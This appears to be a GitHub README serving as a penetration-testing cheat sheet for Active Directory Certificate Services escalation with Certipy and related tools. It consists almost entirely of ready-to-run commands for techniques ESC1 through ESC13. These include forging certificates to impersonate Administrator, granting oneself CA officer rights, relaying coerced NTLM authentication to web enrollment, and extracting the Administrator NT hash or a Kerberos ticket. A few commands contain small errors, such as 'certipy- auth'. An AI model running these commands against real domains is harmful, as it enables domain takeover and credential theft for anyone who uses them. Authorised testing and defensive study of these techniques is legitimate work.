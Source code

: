 # ADCS-Attacks-with-Certipy
## Table of Contents
- [ESC1](#esc1)
- [ESC3](#esc3)
- [ESC4](#esc4)
- [ESC6](#esc6)
- [ESC7](#esc7)
- [ESC8](#esc8)
- [ESC13](#esc13)
## Enumeration
### NetExec
Find PKI Enrollment Services in Active Directory and Certificate Templates Names
```bash
nxc ldap $IP -u $username -p $password -M adcs
```
### Certipy
Search for vulnerable certificate templates
```bash
certipy find -u $username -p $password -dc-ip $IP -vulnerable -enabled
```
List CAs, servers and search for vulnerable certificate templates
```bash
certipy find -u $username -p $password -dc-ip $IP -dns-tcp -ns $IP -debug
```
### Certify
Search for vulnerable certificate templates:
```powershell
Certify.exe find /vulnerable
```
## Attacks
### ESC1
Create a new machine account
```bash
impacket-addcomputer $domain/$username:$password -computer-name $computer_name$ -computer-pass $computer_password
```
Use ability to enroll as a normal user & provide a user defined Subject Alternative Name (SAN)
```bash
certipy req -u $computer_name$ -p $computer_password -ca $ca -target $domain -template $template -upn $username@domain -dns $domain -dc-ip $IP
```
Authenticate with the certificate and get the NT hash of the Administrator
```bash
certipy auth -pfx $pfx_file -domain $domain -username $username -dc-ip $IP
```
### ESC3
Request a certificate
```bash
certipy req -username $username -password $password -ca $ca -target $domain -template $template
```
Request a certificate on behalf of other another user
```bash
certipy req $username -password $password -ca $ca -target $domain -template User -on-behalf-of '$domain\Administrator' -pfx $pfx_file
```
Authenticate as Administrator
```bash
certipy auth -pfx administrator.pfx -dc-ip $ip
```
### ESC4
Overwrite the configuration to make it vulnerable to ESC1
```bash
certipy template -username $username -password $password -template $template -save-old -dc-ip $IP
```
Now if you run this command, it should show that the certificate is vulnerable to ESC1
```bash
certipy find -u $username -p $password -dc-ip $IP -dns-tcp -ns $IP -stdout -debug
```
### ESC6
```bash
certipy req -username administrator@$domain -password $password -ca $ca -target $domain -template $template -upn administrator@$domain
```
### ESC7
In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.
If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.
```bash
certipy ca -ca $ca -add-officer $username -username $username@domain -password $password -dc-ip $IP -dns-tcp -ns $IP
```
Enable the `SubCA` template on the CA using the `-enable-template` parameter. By default, the `SubCA` template is enabled.
```bash
certipy ca -ca $ca -enable-template SubCA -username $username@domain -password $password -dc-ip $IP -dns-tcp -ns $IP
```
This request will be denied, but we will save the private key and note down the request ID.
```bash
certipy req -username $username@domain -password $password -ca $ca -target $IP -template SubCA -upn $username@domain
```
With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.
```bash
certipy ca -ca $ca -issue-request $request_ID -username $username@domain -password $password
```
And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.
```bash
certipy req -username $username@domain -password $password -ca $ca -target $IP -retrieve $request_ID
```
Authenticate with the certificate and get the NT hash of the Administrator
```bash
certipy auth -pfx $pfx -domain $domain -username $username -dc-ip $IP
```
### ESC8
If there is an ADCS Server that is not on the DC and has Web Enrollement activated we might be able to exploit ESC8.
```bash
ntlmrelayx.py -t http://$domain/certsrv/certfnsh.asp -smb2support --adcs --template $template --no-http-server --no-wcf-server --no-raw-server
```
```bash
coercer coerce -u $username -p $password -l $WS_IP -t $DC_IP --always-continue
```
```bash
certipy- auth -pfx administrator.pfx
```
### ESC13
```bash
certipy req -u $username -p $password -ca $ca -target $domain -template $template -dc-ip $IP -key-size 4096
```
```bash
python3 gettgtpkinit.py -cert-pfx $pfx_file $domain/$username $ccache_file -dc-ip $IP -v
```
## Resources
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration
- https://vulndev.io/2023/07/01/vl-intercept-walkthrough/
- https://www.bulletproof.co.uk/blog/abusing-esc13-from-linux
- https://logan-goins.com/2024-05-04-ADCS/
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-3/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/
## Tools
- https://github.com/ly4k/Certipy
- https://github.com/GhostPack/Certify

